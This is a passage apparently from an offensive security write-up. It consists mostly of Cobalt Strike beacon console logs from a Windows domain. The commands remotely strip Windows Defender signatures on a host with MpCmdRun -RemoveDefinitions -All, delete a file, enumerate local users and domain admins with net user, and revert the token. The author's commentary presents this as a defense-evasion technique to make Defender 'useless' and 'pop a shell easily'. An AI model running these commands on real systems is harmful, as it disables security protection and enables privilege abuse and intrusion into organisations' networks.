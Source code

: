 ```
D       0       11/26/2021 21:43:18     Users
D       0       03/24/2022 08:52:54     Windows
D       0       10/08/2020 23:58:52     zabbix_agent
F       55386   11/21/2021 23:14:42     zabbix_agentd.log

beacon> rm system.exe
[*] Tasked beacon to remove system.exe
[+] host called home, sent: 18 bytes
```

So I've learned this technique that is related to **Defense Evasion** and best of all this will make Windows Defender useless to get rid of all of the signatures and pop a shell easily. I had to check the usernames since `sergeev.ma` didn't work. Which is why I've relied on `net users \\<IP>` to check other **Domain Admins** of which I could authenticate on active directory. Instead of `powershell` you can use `remote-exec winrm <IP> <command> [arguments]` to produce the same results.

```
beacon> powershell icm -computername aquila -scriptblock {cmd /c "c:\program files\windows defender\mpcmdrun.exe" -removedefinitions -all }
[*] Tasked beacon to run: icm -computername aquila -scriptblock {cmd /c "c:\program files\windows defender\mpcmdrun.exe" -removedefinitions -all }
[+] host called home, sent: 593 bytes
[+] received output:
#< CLIXML

Service Version: 4.18.2107.4
Engine Version: 1.1.18400.5
AntiSpyware Signature Version: 1.347.80.0
AntiVirus Signature Version: 1.347.80.0
NRI Engine Version: 1.1.18400.5
NRI Signature Version: 1.347.80.0

Starting engine and signature rollback to none...
Done!
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><Obj S="progress" RefId="1"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>

beacon> net user \\AQUILA
[*] Tasked beacon to run net user on AQUILA
[+] host called home, sent: 105057 bytes
[+] received output:
Users for \\AQUILA:

????????????? (admin)
?????
krbtgt
DefaultAccount
day.dozor (admin)
replicant.user (admin)
monit.user
belevax (admin)
aliev.rs (admin)
boba.se
kozyrev.sd (admin)
sysadm (admin)
..[snip]..

beacon> rev2self
[+] Tasked beacon to revert token
```